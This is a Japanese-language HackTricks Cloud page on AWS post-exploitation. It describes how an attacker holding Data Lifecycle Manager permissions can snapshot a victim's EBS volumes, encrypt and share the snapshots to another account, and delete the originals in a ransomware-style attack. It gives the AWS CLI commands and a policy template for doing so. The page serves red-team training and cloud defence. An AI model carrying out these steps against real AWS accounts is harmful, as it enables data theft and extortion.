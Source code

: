 # AWS - DLM Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## データライフサイクルマネージャー (DLM)

### `EC2:DescribeVolumes`, `DLM:CreateLifeCyclePolicy`

ランサムウェア攻撃は、できるだけ多くのEBSボリュームを暗号化し、その後現在のEC2インスタンス、EBSボリューム、およびスナップショットを削除することで実行できます。この悪意のある活動を自動化するために、他のAWSアカウントのKMSキーを使用してスナップショットを暗号化し、暗号化されたスナップショットを別のアカウントに転送するAmazon DLMを利用できます。あるいは、管理しているアカウントに暗号化なしでスナップショットを転送し、そこで暗号化することも可能です。既存のEBSボリュームやスナップショットを直接暗号化するのは簡単ではありませんが、新しいボリュームやスナップショットを作成することで可能です。

まず、インスタンスID、ボリュームID、暗号化ステータス、アタッチメントステータス、ボリュームタイプなどのボリュームに関する情報を収集するコマンドを使用します。

`aws ec2 describe-volumes`

次に、ライフサイクルポリシーを作成します。このコマンドはDLM APIを使用して、指定されたボリュームの毎日のスナップショットを指定された時間に自動的に取得するライフサイクルポリシーを設定します。また、スナップショットに特定のタグを適用し、ボリュームからスナップショットにタグをコピーします。policyDetails.jsonファイルには、ターゲットタグ、スケジュール、暗号化のためのオプションのKMSキーのARN、スナップショット共有のためのターゲットアカウントなど、ライフサイクルポリシーの詳細が含まれており、被害者のCloudTrailログに記録されます。
```bash
aws dlm create-lifecycle-policy --description "My first policy" --state ENABLED --execution-role-arn arn:aws:iam::12345678910:role/AWSDataLifecycleManagerDefaultRole --policy-details file://policyDetails.json
```
ポリシー文書のテンプレートはここにあります:
```bash
{
"PolicyType": "EBS_SNAPSHOT_MANAGEMENT",
"ResourceTypes": [
"VOLUME"
],
"TargetTags": [
{
"Key": "ExampleKey",
"Value": "ExampleValue"
}
],
"Schedules": [
{
"Name": "DailySnapshots",
"CopyTags": true,
"TagsToAdd": [
{
"Key": "SnapshotCreator",
"Value": "DLM"
}
],
"VariableTags": [
{
"Key": "CostCenter",
"Value": "Finance"
}
],
"CreateRule": {
"Interval": 24,
"IntervalUnit": "HOURS",
"Times": [
"03:00"
]
},
"RetainRule": {
"Count": 14
},
"FastRestoreRule": {
"Count": 2,
"Interval": 12,
"IntervalUnit": "HOURS"
},
"CrossRegionCopyRules": [
{
"TargetRegion": "us-west-2",
"Encrypted": true,
"CmkArn": "arn:aws:kms:us-west-2:123456789012:key/your-kms-key-id",
"CopyTags": true,
"RetainRule": {
"Interval": 1,
"IntervalUnit": "DAYS"
}
}
],
"ShareRules": [
{
"TargetAccounts": [
"123456789012"
],
"UnshareInterval": 30,
"UnshareIntervalUnit": "DAYS"
}
]
}
],
"Parameters": {
"ExcludeBootVolume": false
}
}
```
{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**をフォローしてください。**
* **ハッキングトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを送信してください。**

</details>
{% endhint %}
